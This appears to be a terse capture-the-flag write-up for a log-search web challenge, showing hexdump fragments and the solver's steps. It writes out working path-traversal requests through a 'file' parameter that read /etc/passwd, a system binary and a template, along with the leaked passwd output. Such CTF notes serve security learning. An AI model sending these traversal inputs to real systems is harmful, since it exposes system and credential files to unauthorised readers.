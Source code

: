 # CHALLENGE 02

After recent attacks, we’ve developed a search tool. Search the logs and discover what the attackers were after.

Hint: Always search deeper.

https://aurora-web.h4ck.ctfcompetition.com/


## Step 1

aurora

0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|



  |_

00002e70  5f 55 42 82 d5 53 50 93  ec b2 e0 6b 08 a2 94 dd  |_UB..SP....k....|
00003570  5f 09 ac 68 46 a5 e3 1c  95 61 27 29 8d a9 05 e5  |_..hF....a')....|

We realised we can use requests
https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=00


The 4 letter check seems to be done both in backend and frontend.

```
<!-- /src.txt -->
```


https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../etc/passwd&term=root
root:x:0:0:root:/root:/bin/bash

https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../../usr/bin/ls&term=libu

File names in logs/
```
hexdump.txt
registry.txt
exploit_unobfuscated.js
filenames.txt
hostnames.txt
strings.txt
exploit.js
```

https://aurora-web.h4ck.ctfcompetition.com/?file=../templates/default.html&term=%20%20%20%20

